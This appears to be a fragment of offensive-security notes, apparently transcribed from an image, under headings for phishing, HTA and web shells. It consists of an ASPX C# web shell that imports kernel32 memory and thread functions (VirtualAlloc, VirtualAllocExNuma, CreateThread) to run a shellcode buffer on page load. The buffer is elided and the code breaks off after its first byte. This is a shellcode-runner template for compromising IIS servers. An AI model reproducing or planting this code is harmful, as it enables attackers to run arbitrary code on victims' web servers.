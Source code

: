 ### Phishing
#### HTA
#### Web Shell
```csharp
<%@ Page Language="C#" AutoEventWireup="true" %>

<%@ Import Namespace="System.IO" %>

<%@ Import Namespace="System.Diagnostics" %>

<%@ Import Namespace="System.Runtime.InteropServices" %>

<%@ Import Namespace="System.Net" %>

<%@ Import Namespace="System.Text" %>

<%@ Import Namespace="System.Threading" %>

<script runat="server">

[System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true)]

public static extern IntPtr GetCurrentProcess();

[System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress,

uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

[System.Runtime.InteropServices.DllImport("kernel32.dll")]

static extern void Sleep(uint dwMilliseconds);

[System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,

uint flAllocationType, uint flProtect);

[System.Runtime.InteropServices.DllImport("kernel32.dll")]

static extern IntPtr CreateThread(IntPtr lpThreadAttributes,

uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,

uint dwCreationFlags, IntPtr lpThreadId);

[System.Runtime.InteropServices.DllImport("kernel32.dll")]

static extern UInt32 WaitForSingleObject(IntPtr hHandle,

UInt32 dwMilliseconds);

protected void Page_Load(object sender, EventArgs e)

{

byte[] buf = new byte[642] {0x40, ...};

```